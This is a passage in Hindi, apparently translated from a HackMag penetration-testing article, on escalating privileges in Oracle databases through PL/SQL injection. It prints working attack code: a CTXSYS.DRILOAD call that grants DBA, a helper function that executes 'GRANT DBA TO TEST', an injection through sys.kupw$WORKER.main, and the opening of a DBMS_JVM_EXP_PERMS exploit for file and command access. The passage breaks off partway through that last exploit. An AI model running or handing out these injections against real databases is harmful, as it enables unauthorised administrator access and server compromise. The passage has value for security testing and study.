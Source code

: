 आप विशेषाधिकार बढ़ाने के लिए विभिन्न तरीकों का उपयोग कर सकते हैं, जिसमें क्लासिक बफर ओवरफ्लो और DLL पैचिंग से लेकर डेटाबेस के खिलाफ विशेष हमले शामिल हैं, जैसे कि PL/SQL इंजेक्शन। यह विषय बहुत व्यापक है और, इस लेख में, मैं इस पर विस्तार से नहीं जाऊंगा, क्योंकि इस पर बड़े शोध पत्रों में चर्चा की गई है, जैसे कि \[Lichfield\] \(goo.gl/IebQN4\) और \[Finnigan\] \(goo.gl/vXhttf\) के ब्लॉग्स में पाए जाते हैं। मैं केवल उनमें से कुछ का प्रदर्शन करूंगा, ताकि आपको एक सामान्य विचार मिले। परीक्षण के दौरान, मैं सिर्फ वर्तमान विशेषाधिकारों पर ध्यान देने की सलाह देता हूं और, इसके आधार पर, इंटरनेट में वांछित छिद्रों की खोज करें।

MS SQL के विपरीत, जहां एक हमलावर ‘xp\_cmdshell’ को ‘SELECT’ के तुरंत बाद लगभग तुरंत इंजेक्ट कर सकता है, बस इसे एक उद्धरण चिह्न से बंद करके, Oracle DB इस तरह की चालों को स्पष्ट रूप से अस्वीकार करता है। इस कारण से, हम हर समय क्लासिक SQL इंजेक्शन का सहारा नहीं ले सकते हालांकि, इस मामले में भी, एक रास्ता निकालना संभव है। हम PL/SQL इंजेक्शन पर विचार करेंगे, जो उपलब्ध इनपुट पैरामीटर में यादृच्छिक आदेशों को एम्बेड करके एक प्रक्रिया \(कार्य, ट्रिगर, और अन्य वस्तुएं\) के निष्पादन की प्रक्रिया को संशोधित करता है। \(с\) Sh2kerr

पेलोड को एम्बेड करने के लिए, एक ऐसे फंक्शन को ढूंढें जहां इनपुट पैरामीटर्स को फ़िल्टर नहीं किया जाता है। याद रखें कि Oracle SQL मल्टी-स्टेटमेंट \(कई\) क्वेरीज़ की अनुमति नहीं देता है, इसलिए, संभवतः, आपको कुछ "विशेष" प्रक्रियाओं का उपयोग करना होगा जिनमें यह सुविधा होती है। हमले के पीछे मुख्य विचार इस प्रकार है: डिफ़ॉल्ट रूप से, जब तक अन्यथा निर्दिष्ट नहीं किया जाता है, प्रक्रिया को मालिक की ओर से निष्पादित किया जाता है, न कि उस उपयोगकर्ता की ओर से जिसने इसे शुरू किया है। दूसरे शब्दों में, यदि 'SYS' खाते के स्वामित्व वाली कोई प्रक्रिया निष्पादन के लिए उपलब्ध है और आप इसमें अपना कोड एम्बेड कर सकते हैं, तो आपका पेलोड भी 'SYS' खाते के संदर्भ में निष्पादित किया जाएगा। जैसा कि मैंने पहले ही उल्लेख किया है, यह हमेशा नहीं होता है, क्योंकि कुछ प्रक्रियाएं 'authid current\_user' पैरामीटर के साथ होती हैं, जिसका अर्थ है कि यह प्रक्रिया वर्तमान उपयोगकर्ता के विशेषाधिकारों के साथ निष्पादित की जाएगी। हालांकि, आमतौर पर प्रत्येक संस्करण में आप कुछ फंक्शन्स पा सकते हैं जो PL/ SQL इंजेक्शन के लिए संवेदनशील होते हैं। इस प्रक्रिया का एक सामान्य दृश्य चित्र 2 में दिखाया गया है।

[![inject](https://hackmag.com/wp-content/uploads/2015/04/inject.png)](https://hackmag.com/wp-content/uploads/2015/04/inject.png)

संक्षेप में, अपेक्षित वैध तर्क के बजाय, हम कुछ दुर्भावनापूर्ण कोड पास करते हैं जो प्रक्रिया का हिस्सा बन जाता है। एक अच्छा उदाहरण 'CTXSYS.DRILOAD' फंक्शन द्वारा प्रदान किया गया है। यह 'CTXSYS' की ओर से निष्पादित किया जाता है और इनपुट पैरामीटर को फ़िल्टर नहीं करता है, जो आपको DBA तक आसानी से उठने की अनुमति देता है:
```text
exec ctxsys.driload.validate_stmt('grant dba to scott');
```
हालांकि, अब तक, यह शायद इतिहास है, क्योंकि यह कमजोरी 2004 में पाई गई थी, और यह केवल पुराने संस्करणों 8–9 को प्रभावित करती है। आमतौर पर, अधिकारों को बढ़ाने की प्रक्रिया दो भागों में विभाजित होती है: ऐसी प्रक्रिया लिखना जो अधिकारों को बढ़ाती है और स्वयं इंजेक्शन को प्रदर्शन करना। एक विशिष्ट प्रक्रिया इस प्रकार है:
```text
CREATE OR REPLACE FUNCTION F1
RETURN NUMBER AUTHID CURRENT_USER
IS
PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
EXECUTE IMMEDIATE 'GRANT DBA TO TEST';
COMMIT;RETURN(1);END;
/
```
अब हम एक प्रक्रिया को भेद्य फ़ंक्शन के तर्क के रूप में इंजेक्ट कर सकते हैं \(उदाहरण के लिए संस्करण 10x के लिए\):
```text
exec sys.kupw$WORKER.main('x','YY'' and 1=test1.f1 –-');
```
नवीनतम संस्करणों 10 और 11 में, एक "अच्छा" अपवाद है, या बल्कि एक सुरक्षा दोष है, जो आपको DBA अधिकारों के बिना सर्वर पर कमांड निष्पादित करने की अनुमति देता है: 'DBMS\_JVM\_EXP\_PERMS' प्रक्रिया एक उपयोगकर्ता को 'CREATE SESSION' विशेषाधिकार के साथ 'JAVA IO' अधिकार प्राप्त करने की अनुमति देती है। हमला निम्नानुसार आरोपित किया जा सकता है:
```text
SQL&gt; DECLARE
POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;
CURSOR C1 IS SELECT
'GRANT','GREMLIN','SYS','java.io.FilePermission','&lt;FILES&gt;&gt;','execute','ENABLED' FROM DUAL;
BEGIN
OPEN C1;
```